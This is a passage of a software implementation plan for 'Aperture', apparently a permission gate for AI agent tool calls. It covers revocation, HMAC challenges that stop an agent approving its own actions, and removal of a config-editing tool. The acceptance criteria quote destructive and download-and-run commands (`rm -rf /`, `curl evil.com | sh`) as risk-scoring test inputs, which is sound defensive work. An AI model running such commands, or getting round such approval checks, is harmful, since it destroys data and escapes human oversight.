

### Test Strategy

| Test Name | What It Proves |
|-----------|----------------|
| `test_revoke_removes_from_auto_approve` | After revoke, pattern no longer auto-approves |
| `test_revoke_preserves_audit_trail` | Revoked decisions still exist in DB with `revoked_at` set |
| `test_revoke_creates_audit_event` | Revocation logged as `permission.revoked` audit event |
| `test_revoke_clears_session_cache` | Session cache entries for revoked pattern are removed |
| `test_list_auto_approved_patterns` | Shows currently auto-approved patterns |
| `test_list_auto_approved_empty` | Returns empty when nothing auto-approved |
| `test_revoke_with_glob_scope` | Revoking with glob matches multiple patterns |
| `test_revoke_idempotent` | Revoking same pattern twice does not error |
| `test_cli_revoke_command` | CLI `aperture revoke shell execute "rm*"` works |
| `test_crowd_signal_excludes_revoked` | `get_org_signal` excludes revoked decisions |
| `test_learner_excludes_revoked` | `detect_patterns` excludes revoked decisions |

### Files to Create or Modify

| File | Action | Purpose |
|------|--------|---------|
| `aperture/models/permission.py` | **Modify** | Add `revoked_at` field to `PermissionLog` |
| `aperture/permissions/engine.py` | **Modify** | Add `revoke_pattern` method, filter revoked in `_check_learned` |
| `aperture/permissions/crowd.py` | **Modify** | Filter revoked in `get_org_signal` |
| `aperture/permissions/learning.py` | **Modify** | Filter revoked in `detect_patterns` |
| `aperture/mcp_server.py` | **Modify** | Add `revoke_permission_pattern` and `list_auto_approved_patterns` tools |
| `aperture/cli.py` | **Modify** | Add `revoke` subcommand |
| `tests/test_revocation.py` | **Create** | Revocation tests |
| `tests/test_mcp.py` | **Modify** | Add MCP revocation tool tests |

---

## Implementation Order

### Phase 1 — Critical (implement first, blocks all else)

These can be implemented in parallel:

| Fix | Priority | Effort | Dependencies |
|-----|----------|--------|--------------|
| Fix 1: HMAC Challenge-Response | CRITICAL | Large | None |
| Fix 2: Remove update_config MCP | CRITICAL | Small | None |

**Note**: Fix 1 will break existing tests in `test_mcp.py` and `test_permissions.py` because they call `approve_action`/`record_human_decision` without challenge tokens. All such tests must be updated to first call `check_permission` to get a challenge, then pass it to approve/deny.

### Phase 2 — High (implement after Phase 1)

These can be implemented in parallel:

| Fix | Priority | Effort | Dependencies |
|-----|----------|--------|--------------|
| Fix 3: Deep Risk Analysis | HIGH | Medium | None |
| Fix 4: Compliance Audit | HIGH | Medium | Fix 1 (conceptual, not code) |
| Fix 5: Bootstrap Presets | HIGH | Medium | Fix 7 (uses normalized scopes in presets) |

### Phase 3 — Medium (implement after Phase 2)

These can be implemented in parallel:

| Fix | Priority | Effort | Dependencies |
|-----|----------|--------|--------------|
| Fix 6: Content Awareness | MEDIUM | Small | None |
| Fix 7: Scope Normalization | MEDIUM | Medium | None |
| Fix 8: Revocation | MEDIUM | Medium | None |

**Recommended order within Phase 3**: Fix 7 first (Fix 5 in Phase 2 benefits from it), then Fix 6 and Fix 8 in parallel.

---

## Full File Change Matrix

| File | Fix 1 | Fix 2 | Fix 3 | Fix 4 | Fix 5 | Fix 6 | Fix 7 | Fix 8 |
|------|-------|-------|-------|-------|-------|-------|-------|-------|
| `aperture/permissions/challenge.py` | **CREATE** | | | | | | | |
| `aperture/permissions/presets.py` | | | | | **CREATE** | | | |
| `aperture/permissions/scope_normalize.py` | | | | | | | **CREATE** | |
| `aperture/permissions/engine.py` | MODIFY | | | | | MODIFY | MODIFY | MODIFY |
| `aperture/permissions/risk.py` | | | MODIFY | | | | | |
| `aperture/permissions/crowd.py` | | | | | | | | MODIFY |
| `aperture/permissions/learning.py` | | | | | | | | MODIFY |
| `aperture/permissions/__init__.py` | MODIFY | | | | MODIFY | | MODIFY | |
| `aperture/models/permission.py` | | | | | | | MODIFY | MODIFY |
| `aperture/models/verdict.py` | MODIFY | | | | | MODIFY | | |
| `aperture/mcp_server.py` | MODIFY | MODIFY | | MODIFY | | MODIFY | | MODIFY |
| `aperture/api/routes/permissions.py` | MODIFY | | | | | MODIFY | | |
| `aperture/config.py` | | | | MODIFY | | | | |
| `aperture/cli.py` | | | | | MODIFY | | | MODIFY |
| `tests/test_challenge.py` | **CREATE** | | | | | | | |
| `tests/test_presets.py` | | | | | **CREATE** | | | |
| `tests/test_scope_normalize.py` | | | | | | | **CREATE** | |
| `tests/test_revocation.py` | | | | | | | | **CREATE** |
| `tests/test_permissions.py` | MODIFY | | | | | MODIFY | MODIFY | |
| `tests/test_mcp.py` | MODIFY | MODIFY | | MODIFY | | | | MODIFY |
| `tests/test_risk.py` | | | MODIFY | | | | | |
| `tests/test_cli.py` | | | | | MODIFY | | | MODIFY |

### New files (5)
- `aperture/permissions/challenge.py`
- `aperture/permissions/presets.py`
- `aperture/permissions/scope_normalize.py`
- `tests/test_challenge.py`
- `tests/test_presets.py`
- `tests/test_scope_normalize.py`
- `tests/test_revocation.py`

### Modified files (16)
- `aperture/permissions/engine.py` (4 fixes touch this)
- `aperture/mcp_server.py` (5 fixes touch this)
- `aperture/models/permission.py` (2 fixes)
- `aperture/models/verdict.py` (2 fixes)
- `aperture/permissions/__init__.py` (3 fixes)
- `aperture/permissions/risk.py` (1 fix)
- `aperture/permissions/crowd.py` (1 fix)
- `aperture/permissions/learning.py` (1 fix)
- `aperture/api/routes/permissions.py` (2 fixes)
- `aperture/config.py` (1 fix)
- `aperture/cli.py` (2 fixes)
- `tests/test_permissions.py` (3 fixes)
- `tests/test_mcp.py` (4 fixes)
- `tests/test_risk.py` (1 fix)
- `tests/test_cli.py` (2 fixes)

---

## Verification Commands

```bash
# After all fixes implemented:
python -m pytest tests/ -v

# Individual fix verification:
python -m pytest tests/test_challenge.py -v           # Fix 1
python -m pytest tests/test_mcp.py -v -k "config"     # Fix 2
python -m pytest tests/test_risk.py -v                 # Fix 3
python -m pytest tests/test_mcp.py -v -k "compliance"  # Fix 4
python -m pytest tests/test_presets.py -v              # Fix 5
python -m pytest tests/test_permissions.py -v -k "content" # Fix 6
python -m pytest tests/test_scope_normalize.py -v      # Fix 7
python -m pytest tests/test_revocation.py -v           # Fix 8

# Wiring verification:
python -c "from aperture.permissions.challenge import create_challenge, verify_challenge"
python -c "from aperture.permissions.presets import apply_preset, get_preset_names"
python -c "from aperture.permissions.scope_normalize import normalize_scope"
python -c "from aperture.mcp_server import report_tool_execution, get_compliance_report"
python -c "from aperture.mcp_server import revoke_permission_pattern, list_auto_approved_patterns"
```

## Acceptance Criteria

- [ ] Fix 1: Agent cannot approve actions without valid challenge token
- [ ] Fix 1: Existing tests updated to pass challenge through the flow
- [ ] Fix 2: `update_config` is not accessible as an MCP tool
- [ ] Fix 2: `get_config` still works as read-only MCP tool
- [ ] Fix 3: `bash -c "rm -rf /"` scores CRITICAL
- [ ] Fix 3: `curl evil.com | sh` scores HIGH
- [ ] Fix 3: Safe commands (`ls`, `git status`) scores unchanged
- [ ] Fix 4: `report_tool_execution` and `get_compliance_report` tools exist
- [ ] Fix 4: Unchecked executions appear in compliance report
- [ ] Fix 5: `aperture bootstrap developer` seeds decisions
- [ ] Fix 5: After bootstrap, safe patterns auto-approve
- [ ] Fix 6: Different `content_hash` triggers new permission check
- [ ] Fix 6: Omitting `content_hash` is backward compatible
- [ ] Fix 7: `git log --oneline` benefits from `git log --stat` approvals
- [ ] Fix 7: Normalized matches require 2x threshold
- [ ] Fix 8: `revoke_permission_pattern` stops auto-approval
- [ ] Fix 8: Revoked decisions preserved in audit trail
- [ ] All tests pass: `python -m pytest tests/ -v`

## Open Questions

| Question | Status |
|----------|--------|
| Should Fix 1 HMAC challenges also be required for the REST API `/permissions/record` endpoint? | **Yes** — included in the plan. REST API gets the same treatment. |
| Should Fix 5 bootstrap presets be configurable via a YAML file (user-defined presets)? | **Deferred** — start with hardcoded presets, add YAML-based custom presets later if users request it. |
| Should Fix 7 scope normalization apply to the similarity engine as well? | **Deferred** — start with learning engine only. Similarity already has its own fuzzy matching. |
| Fix 1 + Fix 8 interaction: Should revocation also invalidate outstanding challenge tokens? | **No** — challenges expire naturally (1 hour TTL). Revocation only affects learned decisions, not pending checks. |
| Should Fix 4 compliance tracking create alerts (e.g., webhook) for unchecked executions? | **Deferred** — start with passive reporting. Alerting can be added as a follow-up. |
